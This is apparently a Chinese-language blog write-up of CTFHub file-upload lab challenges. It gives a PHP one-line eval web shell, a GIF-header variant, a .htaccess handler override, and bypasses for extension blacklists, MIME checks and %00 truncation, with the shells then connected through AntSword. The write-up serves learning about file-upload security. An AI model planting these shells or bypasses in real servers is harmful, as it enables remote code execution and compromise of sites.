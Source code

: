 ```yaml
---
layout: post
title: CTFHub Web 文件上传
subtitle: CTFHub Web 文件上传
date: 2023-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. 文件上传

### 1.1. 无验证

构造一句话木马 `shell.php`

```php
<?php echo 123;@eval($_POST['code']);?>
```

上传成功

![image](https://img.ghostliner.top/geMboM.png)

![image](https://img.ghostliner.top/Q3YLJs.png)

蚁剑获取到 flag 文件

![image](https://img.ghostliner.top/8EERyC.png)

### 1.2. 前端验证

上传 `shell.php.jpg` bp 抓包修改后缀，上传成功，蚁剑连接

![image](https://img.ghostliner.top/bwzZR3.png)

### 1.3. .htaccess

创建 `.htaccess` 文件上传

```php
<FilesMatch "wshell">
Sethandler application/x-httpd-php
</FilesMatch>
```

上传 `shell.gif` 木马

代码成功执行

![image](https://img.ghostliner.top/cGx3KP.png)

![image](https://img.ghostliner.top/wcRdc9.png)

### 1.4. MIME 绕过

上传 `shell.php.jpg` bp 抓包修改后缀，上传成功，蚁剑连接

![image](https://img.ghostliner.top/sq30WW.png)

### 1.5. 00 截断

检查发现代码，文件路径由 get 提交的 `road` 和随机数、时间、后缀组成

```php
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $info = pathinfo($name);
    $ext = $info['extension'];
    $whitelist = array("jpg", "png", "gif");
    if (in_array($ext, $whitelist)) {
        $des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
        if (move_uploaded_file($_FILES['file']['tmp_name'], $des)) {
            echo "<script>alert('上传成功')</script>";
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "文件类型不匹配";
    }
}
```

`%00` 截断 road 参数，上传成功

![image](https://img.ghostliner.top/yLCSDP.png)

![image](https://img.ghostliner.top/FHiJk6.png)

![image](https://img.ghostliner.top/3E9ATO.png)

### 1.6. 双写后缀

代码发现字符替换函数，双写绕过

```php
$name = basename($_FILES['file']['name']);
$blacklist = array("php", "php5", "php4", "php3", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf", "htaccess", "ini");
$name = str_ireplace($blacklist, "", $name);
```

上传 `shell.pphphp` 成功，蚁剑

![image](https://img.ghostliner.top/99LdSm.png)

### 1.7. 文件头检查

上传 `shell.php.gif` bp 抓包修改后缀，

```php
GIF89a
<?php echo 123;@eval($_POST['code']);?>
```

上传成功，蚁剑连接

![image](https://img.ghostliner.top/ay93X5.png)
